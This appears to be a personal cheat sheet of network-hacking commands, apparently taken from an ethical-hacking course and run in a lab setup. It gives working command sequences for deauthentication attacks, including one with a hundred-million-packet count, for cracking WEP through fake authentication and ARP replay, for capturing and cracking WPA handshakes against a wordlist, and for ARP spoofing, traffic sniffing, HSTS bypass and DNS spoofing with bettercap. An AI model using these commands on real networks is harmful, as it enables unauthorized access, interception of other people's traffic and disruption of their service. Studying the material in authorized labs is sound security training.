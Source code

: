 # Network Hacking

* To list all network interfaces available, we can use `ifconfig`. The MAC address can be viewed under _ether_ in _wlan0_ and the IP can be viewed under _inet_ in _eth0_.

* To change the MAC address:

```shell
ifconfig wlan0 down #disables wlan0

ifconfig wlan0 hw ether 00:11:22:33:44:55 #sets hardware address of wlan0

ifconfig wlan0 up #enables wlan0
```

* To list only wireless interfaces, we can use `iwconfig`.

* To change _wlan0_ to monitor mode:

```shell
ifconfig wlan0 down

airmon-ng check kill #optional; kills any process that disturb interface in monitor mode

iwconfig wlan0 mode monitor #changes wlan0 mode to monitor

ifconfig wlan0 up
```

---

* To sniff packets, we can use _airodump-ng_:

```shell
airodump-ng wlan0 #here, wlan0 must be in monitor mode in order to fetch details
```

* To sniff packets on particular wifi bands:

```shell
airodump-ng --band a wlan0 #captures all networks with 5 GHz band

airodump-ng --band abg wlan0 #captures 2.5 GHz and 5 GHz networks at the same time
```

* To do targeted packet sniffing:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write testfile wlan0 #captures a particular network with given bssid and channel number, then it saves data to a file called testfile
#this will also show the devices connected to network
```

* To run a deauthentication attack, which can disconnect any client from any network:

```shell
aireplay-ng --deauth 100000000 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#here, aireplay-ng is the program name, followed by the deauth attack specifications including the MAC address of target router (-a) and MAC address of target client (-c)
```

---

* WEP(Wired Equivalent Privacy) can be cracked using two tools: _airodump-ng_ and _aircrack-ng_.

* To crack into a busy WEP network:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write wep_test wlan0
#capturing data packets from WEP network and writing it into a file

aircrack-ng wep_test-01.cap
#analyze captured data, cracks the key and prints it
```

* To crack into a non-busy WEP network, we need to do a fake authentication attack:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 11 --write arpreplay wlan0

aireplay-ng --fakeauth 0 -a 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#to associate with network; uses aireplay-ng tool to run a fake authentication attack on given MAC address access point (-a) and by wireless adapter having monitor mode(-h).

aireplay-ng --arpreplay -b 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#ARP request replay; forces access point to generate new IVs

aircrack-ng arpreplay-01.cap
```

---

* To crack WPA/WPA2:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 3 --write wpa-handshake wlan0
#capture handshake (when client joins network)
#deauth attack can be done in parallel to capture handshake
aireplay-ng --deauth 4 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#After this handshake is captured and stored in file

crunch 6 8 ria258 -o trial-wordlist.txt
#wordlist created using crunch with specifics

aircrack-ng wpa-handshake-01.cap -w trial-wordlist.txt
```

---

* For devices connected on same network:

```shell
netdiscover -r 10.0.2.1/24 #search devices on same subnet as Kali

netdiscover -c 10 -r 10.0.2.1/24 -i eth0 #increases no. of packets
```

* zenmap (GUI for nmap) can be used to gather more data about devices within subnet range.

---

* ARP Spoofing using arpspoof:

```shell
arp -a #to view arp table, works on both Linux and Windows

arpspoof -i eth0 -t 10.0.2.15 10.0.2.1 #arpspoof target victim (Windows VM) through gateway

arpspoof -i eth0 -t 10.0.2.1 10.0.2.15 #arpspoof target router (gateway) through victim
#both arpspoof commands required to be run simultaneously
#result can be observed by viewing changed MAC address using 'arp -a' on victim PC

echo 1 > /proc/sys/net/ipv4/ip_forward #enable port forwarding
```

* ARP Spoofing using Bettercap:

```shell
bettercap -iface eth0 #initialize

net.probe on #net probing, gives list of connected IPs

net.show #list of connected clients
#'help' can be used to view modules

set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.15 #change parameter values

arp.spoof on #start arp spoofer

net.sniff on #sniff packets

#.cap files can be created to run custom scripts to save time
bettercap -iface eth0 -caplet spoof.cap
```

* HTTPS and HSTS can be bypasses using caplets from Bettercap, such as hstshijack.

* DNS Spoofing:

```shell
service apache2 start #start web server

bettercap -iface eth0 -caplet spoof.cap

set dns.spoof.all true

set dns.spoof.domains zsecurity.org, *.zsecurity.org

dns.spoof on
#by default, it will redirect to interface address (10.0.2.4)
```
